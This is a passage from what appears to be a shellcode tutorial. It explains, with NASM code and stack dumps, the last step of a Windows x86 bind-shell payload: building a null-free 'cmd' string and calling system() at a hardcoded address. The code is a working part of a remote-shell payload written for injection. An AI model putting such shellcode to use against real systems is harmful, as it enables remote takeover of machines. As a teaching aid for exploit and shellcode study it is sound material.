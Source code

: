 Syntax:
```nasm
system(const char *command)
```

The final system call we need to call is the actual execution of OS commands. It takes one argument which is the a pointer to a command string. If you remember earlier, we had to deal with a filename string needed to be terminated with a null byte. Here we will also do some maneuvering to mitigate null bytes in the code.

```nasm
mov DWORD [esp-0x5], 0x646d6341   ; Store string "Acmd" 5 bytes from top of stack
lea eax, [esp-0x4]                ; Store pointer to the string "cmd\0" in eax
lea esp, [esp-0x4]                ; Manually update esp
push eax                          ; Arg1 (*command) = Pointer to "cmd\0"
mov eax, 0x77c293c7               ; Address to system()
call eax
```

### This is the stack and registers for each operation:

Starting state, where ESP points to the *addr structure from the bind() function.

```perl
       Addr        Value
       0022FE1C    FFFFFFF4
       0022FE20    00000000
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

After `mov DWORD [esp-0x5], 0x646d6341`, the string "Acmd" is placed 5 bytes from ESP. Since the string only use 3 bytes of the "row" with only zeros, we have a clean null terminated "cmd" string on the stack.

```perl
       Addr        Value      Ascii
       0022FE1C    41FFFFF4   "...A"
       0022FE20    00646D63   "cmd\0"
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

`lea eax, [esp-0x4]` stores a pointer to the "cmd\0" string in EAX.

```perl
       Addr        Value      Ascii
       0022FE1C    41FFFFF4   "...A"
EAX -> 0022FE20    00646D63   "cmd\0"
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

`lea esp, [esp-0x4]` adjusts ESP, or else data will be overwritten when we push more values on the stack.

```perl
           Addr        Value      Ascii
           0022FE1C    41FFFFF4   "...A"
ESP/EAX -> 0022FE20    00646D63   "cmd\0"
           0022FE24    5C110002
           0022FE28    00000000
```
